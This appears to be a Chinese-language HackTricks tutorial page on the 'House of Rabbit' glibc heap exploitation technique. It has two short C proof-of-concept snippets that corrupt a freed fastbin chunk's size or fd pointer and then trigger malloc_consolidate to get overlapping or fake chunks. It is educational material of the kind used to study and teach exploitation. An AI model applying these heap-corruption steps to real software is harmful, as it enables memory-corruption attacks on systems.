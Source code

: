 # House of Rabbit

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

### 要求

1. **能够修改快速 bin fd 指针或大小**：这意味着您可以更改快速 bin 中一个块的前向指针或其大小。
2. **能够触发 `malloc_consolidate`**：这可以通过分配一个大块或合并顶部块来完成，这会强制堆合并块。

### 目标

1. **创建重叠块**：使一个块与另一个块重叠，从而允许进一步的堆操作。
2. **伪造假块**：欺骗分配器在堆操作期间将假块视为合法块。

## 攻击步骤

### POC 1：修改快速 bin 块的大小

**目标**：通过操纵快速 bin 块的大小来创建重叠块。

* **步骤 1：分配块**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
我们分配两个各为0x40字节的块。这些块在释放后将被放入快速空闲链表中。

* **步骤 2：释放块**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
我们释放这两个块，将它们添加到 fastbin 列表中。

* **步骤 3：修改块大小**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
我们将 `chunk1` 的大小元数据更改为 0xa1。这是一个关键步骤，用于在合并期间欺骗分配器。

* **步骤 4：触发 `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
分配一个大块会触发 `malloc_consolidate` 函数，合并快速堆中的小块。被操控的 `chunk1` 的大小导致它与 `chunk2` 重叠。

合并后，`chunk1` 与 `chunk2` 重叠，从而允许进一步的利用。

### POC 2: 修改 `fd` 指针

**目标**：通过操控快速堆 `fd` 指针创建一个假块。

* **步骤 1：分配块**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**解释**：我们分配两个块，一个较小和一个较大，以便为假块设置堆。

* **步骤 2：创建假块**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
我们将假块元数据写入 `chunk2` 以模拟较小的块。

* **步骤 3：释放 `chunk1`**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**解释**：我们释放 `chunk1`，将其添加到 fastbin 列表中。

* **步骤 4：修改 `chunk1` 的 `fd`**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**解释**：我们将 `chunk1` 的前向指针 (`fd`) 更改为指向 `chunk2` 内部的假块。

* **步骤 5：触发 `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
分配一个大块再次触发 `malloc_consolidate`，它处理假块。

假块成为快速链表的一部分，使其成为进一步利用的合法块。

### 摘要

**兔子之家** 技术涉及修改快速链块的大小以创建重叠块或操纵 `fd` 指针以创建假块。这允许攻击者在堆中伪造合法块，从而启用各种形式的利用。理解和实践这些步骤将增强你的堆利用技能。

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
